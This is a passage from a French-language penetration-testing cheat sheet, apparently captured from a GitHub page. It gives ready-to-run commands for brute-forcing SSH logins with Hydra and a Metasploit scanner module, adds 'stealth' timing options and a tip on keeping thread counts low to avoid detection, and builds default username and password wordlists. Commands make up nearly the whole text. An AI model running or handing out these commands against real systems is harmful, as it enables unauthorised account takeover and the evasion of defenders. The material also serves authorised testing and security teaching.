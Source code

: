 ```bash
set RHOSTS target
set USER_FILE users.txt
set PASS_FILE passwords.txt
set VERBOSE true
run
```

### Brute Force SSH avec Hydra
```bash
# Brute force utilisateur unique
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://target

# Brute force liste d'utilisateurs
hydra -L users.txt -P passwords.txt -t 4 -f ssh://target

# Options recommandées SSH
hydra -L users.txt -P passwords.txt -t 4 -f -V -o ssh_results.txt ssh://target

# Avec délai (mode furtif)
hydra -l root -P passwords.txt -t 1 -w 3 -f ssh://target
```

**⚠️ Limitation SSH :** Maximum 4-6 threads recommandés pour éviter la détection/blocage.

### Wordlists SSH spécialisées
```bash
# Utilisateurs Linux/Unix courants
cat > ssh_users.txt << EOF
root
admin
administrator
user
test
guest
demo
service
operator
backup
support
oracle
postgres
mysql
www-data
ubuntu
centos
debian
EOF

# Mots de passe SSH/Linux courants
cat > ssh_passwords.txt << EOF
root
admin
password
123456
password123
toor
qwerty
welcome
letmein
changeme
default
test
guest
```